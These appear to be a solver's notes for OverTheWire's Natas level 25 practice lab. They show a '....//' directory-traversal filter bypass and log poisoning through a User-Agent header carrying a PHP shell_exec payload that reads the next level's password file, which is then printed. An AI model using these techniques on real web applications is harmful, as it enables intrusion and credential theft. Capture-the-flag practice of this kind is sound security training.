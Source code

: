 http://natas25.natas.labs.overthewire.org/?lang=.

Warning: include(/var/www/natas/natas25/language): failed to open stream: No such file or directory in /var/www/natas/natas25/index.php on line 38

Warning: include(): Failed opening 'language/.' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas25/index.php on line 38

Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line 81


Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on line 82

%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fnatas%5Fwebpass%2Fnatas26

nothing

http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_lant8bjk89cgu9t7370rq1ldd8.log

        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }

....// -> ../ !!!

function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}

get logs:
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_lant8bjk89cgu9t7370rq1ldd8.log

$_SERVER['HTTP_USER_AGENT']

change http user agent to

<?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>

...
Firefox/141.0 "Directory traversal attempt! fixing request." [21.08.2025 03::29:49] Mozilla/5.0 (X11; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0 "Illegal file access detected! Aborting!" [21.08.2025 03::29:58] Mozilla/5.0 (X11; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0 "Directory traversal attempt! fixing request." [21.08.2025 03::30:37] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE "Directory traversal attempt! fixing request." [21.08.2025 03::30:37] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE "Illegal file access detected! Aborting!" [21.08.2025 03::31:06] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE "Directory traversal attempt! fixing request." 
...

cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE